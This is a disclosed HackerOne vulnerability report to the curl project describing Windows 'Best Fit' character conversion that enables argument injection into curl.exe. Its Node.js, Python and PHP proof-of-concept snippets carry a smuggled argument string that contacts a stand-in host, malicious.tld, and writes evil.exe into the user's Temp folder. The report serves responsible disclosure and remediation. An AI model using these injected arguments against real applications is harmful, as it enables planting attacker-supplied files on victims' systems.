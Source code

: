 # Unicode-to-ASCII conversion on Windows can lead to argument injection and more

## Report Details
- **Report ID**: 2550951
- **URL**: https://hackerone.com/reports/2550951
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-06-13T10:01:20.635Z
- **Disclosed**: 2024-06-18T10:52:28.254Z

## Reporter
- **Username**: splitline
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
Hello cURL team,

I am splitline from DEVCORE Research Team. We recently found a vulnerability on cURL. We have reproduced the issues in the latest version of cURL (curl-8.8.0_1) and would like to report it to you. Please check the attached document for details.

This advisory is in accordance with our vulnerability disclosure policy, which will be publicly disclosed after 90 days. Our aim is to ensure that vulnerabilities can be patched in a timely manner. Although it’s not a hard deadline, we still hope you can fix this vulnerability before September 11, 2024.

Please let me know if you have any questions, thanks!


### Summary

We noticed that the misuse of the Windows ANSI API in cURL could result in unexpected argument parsing behaviour for cURL. This could consequently lead to argument injection when invoking the `curl.exe` from the command line.

### Affected Environment

- Operation System: Microsoft Windows
    - Tested on Windows 10/11, should also work on most of the versions.
- Language (system locale):
    - CP874:    Thai
    - CP1250:   Central European language (e.g. English, German, Polish)
    - CP1251:   Cyrillic
    - CP1252:   Western European language (e.g. English, Spanish, French)
    - CP1253:   Greek
    - CP1254:   Turkish
    - CP1255:   Hebrew
    - CP1256:   Arabic
    - CP1257:   Baltic
    - CP1258:   Vietnamese
    - (Does NOT affect Chinese, Japanese and Korean)

### Description

Firstly, on Windows, command line arguments are passed as a string and are parsed by the executable itself. In contrast, on Linux, arguments are always passed to the executable as an array of strings.

Secondly, Windows exists a behavior known as "Best Fit" encoding conversion[`[1]`](https://www.unicode.org/Public/MAPPINGS/VENDORS/MICSFT/WindowsBestFit/readme.txt)[`[2]`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ucoderef/d1980631-6401-428e-a49d-d71394be7da8). This occurs when Windows needs to convert characters between Unicode UTF-16 (WideChar) and ANSI (MultiByte). For instance, if a Unicode character `＂` (U+FF02, fullwidth double quote) is passed as an argument but received with the [`GetCommandLineA`](https://learn.microsoft.com/en-us/windows/win32/api/processenv/nf-processenv-getcommandlinea) ANSI API, in certain system locales, it will trigger the "best fit" behavior and convert this Unicode UTF-16 character into `"` (0x22, double quote).

Here in our case, `curl.exe` receives the command line string using ANSI API. So if you pass some Unicode characters into those executables, it will be converted to another character, which leads to an unexpected argument parsing result in the end.


### Examples / Step to reproduce

Before we start, we need to make sure the Windows system locale is configured to any of the following language types: Central European, Western European, Greek, Hebrew, Baltic, Cyrillic, Arabic, Turkish, Vietnamese or Thai. You can check your codepage by the following command:
```powershell
powershell.exe [Console]::OutputEncoding.WindowsCodePage
```

If your computer is currently not configured to that language, here are the detailed steps to do the configuration (for Windows 11):
    1. Go to "Settings" > "Time & Language" > "Language & Region"
    2. Click the "Administrative language settings" item (in the "Related settings" section)
    3. In the "Language for non-Unicode programs" section, click the "Change system locales" button. Set the system locale to any of the languages we mentioned. Here we can take "English (United States)" as an example. (Remember to restart your machine)
    4. Check the codepage again with the command we mentioned: `powershell.exe [Console]::OutputEncoding.WindowsCodePage`. It should be `1252` if you chose "English (United States)".


Here we opt for Node.js, Python and PHP as some examples.

In the subsequent three scenarios, where argument escaping or argument separating could fail, leading to argument injection. Furthermore, there's also the potential for executing arbitrary commands. As an illustration, we simply demonstrate by writing file into temp directory.

Ensure to substitute `malicious.tld` and `<username>` in the following scripts with a appropriate values on your system. In this context, `malicious.tld` denotes a domain or website controlled by a malicious actor, while `<username>` represents the username of the current user.

In Node.js:
```javascript
const child_process = requite('child_process');
const arg = "name=meow\u{FF02} malicious.tld \u{FF02}-o-\u{FF02} \u{FF02}-o ..\..\..\..\..\..\..\..\..\\Users\\<username>\\AppData\\Local\\Temp\\evil.exe";
child_process.spawnSync("curl.exe", ["https://example.com/", "--data", arg]);
```

In Python:
```python
import subprocess
arg = "name=meow\uFF02 malicious.tld \uFF02-o-\uFF02 \uFF02-o ..\..\..\..\..\..\..\..\..\\Users\\<username>\\AppData\\Local\\Temp\\evil.exe"
subprocess.run(['curl.exe', "https://example.com/", "--data", arg])
```

In PHP:
```php
define("arg", "name=meow\u{FF02} malicious.tld \u{FF02}-o-\u{FF02} \u{FF02}-o ..\..\..\..\..\..\..\..\..\\Users\\<username>\\AppData\\Local\\Temp\\evil.exe");
proc_open(['curl.exe', "https://example.com/", "--data", arg], [], $pipes);
// or
system(sprintf("curl.exe https://example.com/ --data %s", escapeshellarg(arg)));
```


For the 3 preceding instances, they all result in the following parsing result in command line and `curl.exe`:

In command line:
```
                                     ┌─────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
curl.exe https://example.com/ --data "name=meow＂ malicious.tld ＂-o-＂ ＂-o ..\..\..\..\..\..\..\..\..\Users\<username>\AppData\Local\Temp\evil.exe"
                                     ↑         ↑                ↑    ↑  ↑                                                                          ↑
                                    0x22     U+FF02              U+FF02                                                                          0x22
```

In `curl.exe`
```
                                     ┌─────────┐ ┌────────────┐ ┌────┐ ┌───────────────────────────────────────────────────────────────────────────┐
curl.exe https://example.com/ --data "name=meow＂ malicious.tld ＂-o-＂ ＂-o ..\..\..\..\..\..\..\..\..\Users\<username>\AppData\Local\Temp\evil.exe"
                                     ↑         ↑                ↑    ↑  ↑                                                                          ↑
                                    0x22      0x22             0x22  0x22                                                                          0x22
```

Notice that U+FF02 isn't the only character that can be converted to a double quote; it's simply one example among many. For the full conversion tables, we can refer to [the document from Unicode.Org](https://www.unicode.org/Public/MAPPINGS/VENDORS/MICSFT/WindowsBestFit/readme.txt). Consequently, given this characteristic, it becomes exceedingly challenging for other programming languages to adequately handle argument escaping.


### Suggested Remediation

1. Avoid the using of the [ANSI Windows API](https://learn.microsoft.com/en-us/windows/win32/intl/unicode-in-the-windows-api) to get and parse the command line. 
2. If you didn't explicitly use the ANSI Windows API, it might be used by the compiler or standard library itself, there are several ways to hint the compiler to use UTF-16 (WideChar) API.
    1. Use `wmain` function as the main function: https://learn.microsoft.com/en-us/cpp/c-language/using-wmain?view=msvc-170
    2. Use the -municode flag while compiling: https://sourceforge.net/p/mingw-w64/wiki2/Unicode%20apps/
    

### Credit Discovery To
Orange Tsai (@orange_8361) and splitline (@splitline) from DEVCORE Research Team

## Impact

If an application invokes the `curl.exe` from the command line, and any part of an argument can be controlled by a user then it can lead to argument injection.

## Attachments
No attachments
